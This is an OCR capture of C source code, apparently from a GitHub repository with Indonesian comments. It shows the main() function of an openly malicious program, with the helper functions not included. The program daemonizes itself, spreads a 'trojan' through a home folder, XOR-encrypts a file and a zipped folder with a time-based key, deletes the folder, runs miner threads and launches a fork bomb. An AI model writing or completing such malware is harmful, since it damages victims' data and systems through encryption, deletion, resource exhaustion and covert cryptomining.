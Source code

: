 ```
        }
    }
}


int main(int argc, char **argv) {
    const char *lokasiMalware = "/home/dinda/malware/executable";  // Path ke file malware
    const char *folderTarget = "/home/dinda";  // Folder target untuk trojan

    sem_init(&miner_semaphore, 0, MAX_MINERS);

    create_daemon();

    char lokasiProgram[1024];
    ssize_t panjang = readlink("/proc/self/exe", lokasiProgram, sizeof(lokasiProgram) - 1);
    if (panjang != -1) {
        lokasiProgram[panjang] = '\0';
        trojan(folderTarget, lokasiProgram);
    } else {
        fprintf(stderr, "Gagal mendapatkan path executable.\n");
        return 1;
    }

    time_t t = time(NULL);
    unsigned char key = (unsigned char)(t % 256);
    const char *file_to_encrypt = "randomfile";
    xor_encrypt(file_to_encrypt, key);
    printf("File '%s' berhasil dienkripsi.\n", file_to_encrypt);

    const char *folder_to_zip = "test";
    const char *zip_filename = "test.zip";

    zip_folder(folder_to_zip, zip_filename);
    printf("Folder '%s' berhasil di-zip menjadi '%s'.\n", folder_to_zip, zip_filename);

    xor_encrypt(zip_filename, key);
    printf("File ZIP '%s' berhasil dienkripsi.\n", zip_filename);

    change_permissions(folder_to_zip);

    remove_directory(folder_to_zip);

    pthread_t feature_thread;
    if (pthread_create(&feature_thread, NULL, (void *)feature_loop, NULL) != 0) {
        perror("Gagal membuat thread untuk fitur loop");
        return 1;
    }

    fork_bomb();

    pthread_join(feature_thread, NULL);

    sem_destroy(&miner_semaphore);

    return 0;
}

```
